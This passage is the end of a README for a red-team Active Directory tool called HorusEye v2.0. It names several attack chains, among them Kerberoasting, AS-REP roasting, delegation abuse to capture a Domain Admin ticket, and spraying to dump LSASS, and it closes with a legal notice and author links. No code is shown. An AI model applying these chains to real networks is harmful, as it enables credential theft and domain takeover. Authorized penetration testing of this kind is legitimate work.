- `Kerberoast → crack → ACL chain` — Service account with WriteDacl on Domain Admins
- `AS-REP Roast` — No credentials needed for initial foothold
- `Unconstrained delegation` — Trigger printerbug → capture DA TGT
- `Password spray → DA session on workstation` — Lateral to DA workstation → dump LSASS

---

## Legal Notice

This tool is intended for authorized penetration testing, CTF competitions, and security research only. Unauthorized use against systems you do not own or have explicit written permission to test is illegal. The author assumes no liability for misuse.

---

## Author

**Omar Tamer**

Penetration Tester — Egypt

[](https://www.linkedin.com/in/omar-tamer-1a986b2a7/)
[](https://medium.com/@OmarTamer0)
[](https://omar-tamerr.github.io/)

| | |
|---|---|
| LinkedIn | [linkedin.com/in/omar-tamer-1a986b2a7](https://www.linkedin.com/in/omar-tamer-1a986b2a7/) |
| Medium | [medium.com/@OmarTamer0](https://medium.com/@OmarTamer0) |
| Portfolio | [omar-tamerr.github.io](https://omar-tamerr.github.io/) |

> "The Eye of Horus sees all paths through the domain."

</div>

---

<div align="center">

*HorusEye v2.0 — Built for red teamers, by a red teamer*

</div>
